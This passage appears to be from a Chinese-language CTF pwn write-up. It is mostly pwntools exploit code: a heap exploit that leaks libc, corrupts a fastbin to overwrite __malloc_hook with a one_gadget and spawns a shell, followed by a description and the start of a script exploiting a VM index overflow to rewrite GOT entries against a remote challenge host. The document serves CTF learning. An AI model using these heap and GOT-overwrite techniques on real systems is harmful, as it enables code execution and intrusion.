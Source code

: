 ```python
	p.sendline(str(idx))

add('a'*0x200+'\n')#0
add('a'*0x200+'\n')#1
delete(0)
show(1)
#p.recvuntil('')
libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x3c4b78
print hex(libc_base)

one = libc_base + 0x4526a
malloc_hook = libc_base + e.symbols['__malloc_hook']
realloc = libc_base + 0x846C0 

notelen = 0x67

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

add('b'*notelen+'\n') #2
add('b'*notelen+'\n') #3
add('d'*notelen+'\n') #4
add('c'*notelen+'\n') #5
delete(2)
edit(3, p64(malloc_hook-0x23)+'\x00'+'\n')
print hex(malloc_hook)

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')
add('b'*notelen+'\n') #6
print hex(realloc)
print hex(one)
add(('e'*19+p64(one))+'\x00'*(notelen-11-16)+'\n') #7
#edit(7, 'e'*11+p64(one)+p64(one)+'\x00'*10+'\n')

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

p.recvuntil('>')
p.sendline('1')

p.interactive()

```

### Virtual

实现了个简单vm

save和load有下标溢出，因此可以改stack的指针指向bss段，然后去读got表中的函数地址，加个偏移，变成one_gadget，再写回去

下面是payload

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com', 40003)

def ru(x):
```